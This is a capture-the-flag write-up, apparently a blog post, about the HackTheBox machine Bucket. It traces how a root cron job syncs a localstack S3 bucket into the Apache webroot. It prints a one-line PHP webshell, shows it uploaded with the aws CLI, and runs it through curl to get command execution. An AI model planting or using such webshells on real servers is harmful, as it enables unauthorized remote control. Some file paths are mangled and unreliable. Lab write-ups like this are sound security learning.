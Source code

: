 

# More Bucket Beyond Root

#ctf #htb-bucket #hackthebox #s3 #aws #awscli #apache #docker
#localstack #cron #automation May 3, 2021






-   [HTB: Bucket](/htb-bucket.md)
-   [More Beyond Root](#)




![](/img/bucket-more-cover.png)

\@teh_zeron reach out on twitter to ask why there's no images directory
in the webroot on Bucket. I showed how my PHP webshell will show up
there, and the index page seems to always be there. I'll look closely at
how Bucket was set up, how different requests are handled, and the
automation that is syncing between the host and the container.

## Requests Routing

To look at this, I'll start with what I know about Bucket, it's
listening ports, and it's containers:

![](/img/bucket-layout.png)

Requests to bucket.htb (and really anything ending in bucket.htb that
isn't s3.bucket.htb) will be served out of `/var/www.md` on Bucket.
Requests to s3.bucket.htb as passed with the `ProxyPass` directive in
the `/etc/apache2/site-enabled/000-default.conf` file:



            ProxyPass / http://localhost:4566/
            ProxyPassReverse / http://localhost:4566/



`docker ps` shows that port 4566 on localhost is being forwarded to 4566
on the localstack container:



    root@bucket:~# docker ps
    CONTAINER ID        IMAGE                          COMMAND                  CREATED             STATUS              PORTS                                               NAMES
    444af250749d        localstack/localstack:latest   "docker-entrypoint.sh"   7 months ago        Up 30 minutes       4567-4597/tcp, 127.0.0.1:4566->4566/tcp, 8080/tcp   localstack



This is how far I went in the original [Beyond
Root](/htb-bucket.md#beyond-root) section (without the nice
picture).

## Requests

### Background

I'll look at a few requests and how they are handled.

When I tried to visit the page by IP in Firefox, it redirected me to
`bucket.htb` (that's also in the `000-default.conf` file).
`http://bucket.htb` is simply served from `/var/www.md/index.md`.

Within that page, there were images, with sources like
`http://s3.bucket.htb/adserver/images/bug.jpg`. Referencing the image
above, when this request is made, it's forwarded to the localstack
container, which returns the image.

I also noted that `http://s3.bucket.htb/adserver/index.md` loaded what
looked like the `index.md` page. This doesn't have to be the case, but
isn't surprising. Perhaps the site is backing up the `index.md` page
in the cloud.

### Upload

With that in mind, I uploaded a PHP shell using the `aws` command line
utility:



    oxdf@parrot$ aws s3 --endpoint-url http://s3.bucket.htb cp /opt/shells/php/cmd.php s3://adserver/
    upload: ../../../../opt/shells/php/cmd.php to s3://adserver/cmd.php



Immediately after doing that, there's no `cmd.php` on `bucket.htb`, but
there is one in the S3 bucket:



    oxdf@parrot$ curl http://bucket.htb/cmd.php?cmd=id
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    .md><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    <hr>
    <address>Apache/2.4.41 (Ubuntu) Server at bucket.htb Port 80</address>
    </body><.md>
    oxdf@parrot$ curl http://s3.bucket.htb/adserver/cmd.php?cmd=id
    <?php system($_REQUEST["cmd"]); ?>



But the webshell isn't executed from s3. That makes sense, as it's meant
to be static storage, not hosting a full featured site.

If I wait for the minute to roll and check again, now the webshell is
there and executing:



    oxdf@parrot$ curl http://bucket.htb/cmd.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



## Sync

### sync.sh

The webshell makes it from the localstack container to the host when an
automation script runs on Bucket.

As root, there are three crons:



    root@bucket:~# crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    @reboot /root/start.sh
    * * * * *       /root/sync.sh
    * * * * *       rm /var/www/bucket-app/files/*



The first runs on boot, and starts the containers. The third is related
to the application running on localhost, bucket-app (used in the
privesc).

`/root/sync.sh` is important here:



    #!/bin/bash

    rm -rf /root/files/*
    aws --endpoint-url=http://localhost:4566 s3 sync s3://adserver/ /root/files/ --exclude "*.png" --exclude "*.jpg"
    cp -R /root/files/* /var/www.md/



It clears the files in a local directory in `/root`. It then syncs
everything from s3 excluding images over to a new clean folder. Then it
copies everything from that folder into `/var/www.md`. I had noted
that the files in `/var/www.md` were owned by root, yet somehow
written by www-data. This explains that.

### images

So my guess at this point is that the `images` directory isn't copies
because none of the files in it are synced. I can verify that. I'll run
the `aws sync` command without the excludes.



    root@bucket:~# aws --endpoint-url=http://localhost:4566 s3 sync s3://adserver/ /tmp/.0xdf/
    download: s3://adserver/images/bug.jpg to ../tmp/.0xdf/images/bug.jpg
    download: s3://adserver/index.md to ../tmp/.0xdf/index.md      
    download: s3://adserver/images/malware.png to ../tmp/.0xdf/images/malware.png
    download: s3://adserver/images/cloud.png to ../tmp/.0xdf/images/cloud.png



The images directory and everything in it is copied into the target
folder.

Or showing it the other way, if I upload a non-`png` and non-`jpg` file
to the images folder and wait for the cron to run, then the `images`
folder is copied into `/var/www.md`:



    root@bucket:~# find /var/www.md/
    /var/www.md/
    /var/www.md/index.md
    /var/www.md/images
    /var/www.md/images/cmd.php




[« HTB: Bucket](/htb-bucket.md)






